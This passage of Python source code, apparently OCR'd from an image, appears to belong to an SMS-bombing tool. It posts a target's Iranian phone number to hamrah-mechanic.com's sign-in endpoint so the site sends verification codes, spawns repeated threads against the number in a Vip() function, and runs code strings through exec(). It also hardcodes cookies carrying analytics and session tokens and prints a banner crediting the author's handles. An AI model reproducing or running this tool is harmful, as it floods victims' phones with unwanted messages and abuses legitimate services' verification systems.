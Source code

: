 "Content-Type": "application/json",
"Cookie": "_ga=GA1.2.1307952465.1641249170; analytics_campaign={%22source%22:%22google%22%2C%22medium%22:%22organic%22}; analytics_token=2527d893-9de1-8fee-9f73-d666992dd3d5; _yngt=9d6ba2d2-fd1c-4dcc-9f77-e1e364af4434; _hjSessionUser_619539=eyJpZCI6IjcyOTJiODRhLTA2NGUtNTA0Zi04Y2RjLTA2MWE3ZDgxZDgzOSIsImNyZWF0ZWQiOjE2NDEyNDkxNzEzMTUsImV4aXN0aW5nIjp0cnVlfQ==; _gid=GA1.2.284804399.1642278349; _gat_gtag_UA_106934660_1=1; _gat_UA-0000000-1=1; analytics_session_token=238e3f23-aff7-8e3a-f1d4-ef4f6c471e2b; yektanet_session_last_activity=1/15/2022; _yngt_iframe=1; _gat_UA-106934660-1=1; _hjIncludedInSessionSample=0; _hjSession_619539=eyJpZCI6IjRkY2U2ODUwLTQzZjktNGM0Zi1iMWUxLTllY2QzODA3ODhiZCIsImNyZWF0ZWQiOjE2NDIyNzgzNTYzNjgsImluU2FtcGxlIjpmYWxzZX0=; _hjIncludedInPageviewSample=1; _hjAbsoluteSessionInProgress=0",
"Host": "www.hamrah-mechanic.com",
"Origin": "https://www.hamrah-mechanic.com",
"Referer": "https://www.hamrah-mechanic.com/membersignin/",
"Source": "web",
"TE": "trailers",
"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0"
}
    meD = {
	"landingPageUrl": "https://www.hamrah-mechanic.com/",
	"orderPageUrl": "https://www.hamrah-mechanic.com/membersignin/",
	"phoneNumber": "0"+phone.split("+98")[1],
	"prevDomainUrl": None,
	"prevUrl": None,
	"referrer": "https://www.google.com/"
}
    try:
        meR = post(url=meU, headers=meH, data=meD).json()
        if meR['isSuccess']:
            print(f'{g}(HamrahMechanic) {w}Code Was Sent')
            return True
    except: pass
# ================================[SEND SMS FUNC]================================
def is_phone(phone: str):
    phone = sub("\s+", "" ,phone.strip())
    if match(r"^\+989[0-9]{9}$", phone):
        return phone
    elif match(r"^989[0-9]{9}$", phone):
        return f"+{phone}"
    elif match(r"^09[0-9]{9}$", phone):
        return f"+98{phone[1::]}"
    elif match(r"^9[0-9]{9}$", phone):
        return f"+98{phone}"
    else:
        return False

def printLow(Str):
    for char in Str:
        print(char, end='', flush=True)
        sleep(.01)
def start(x: int, S: str):
    if active_count() < x:
        exec(S)
r='\033[1;31m'
g='\033[32;1m' 
y='\033[1;33m'
w='\033[1;37m'
printLow(f'{r} Freedom to Dream \n\n{y}Info:\n    {g}[+] {y}GitHub account: {w}@NiREvil \n    {g}[+] {y}Telegram Channel: {w}@F_NiREvil\n   \n{y}system:\n    {g}[+] {y}Platform: {w}{System}\n    {g}[+] {y}Node: {w}{Node}\n    {g}[+] {y}Release: {w}{Release}\n\n')
def Vip(phone, Time):
    Thread(target=snap, args=[phone]).start(), sleep(Time)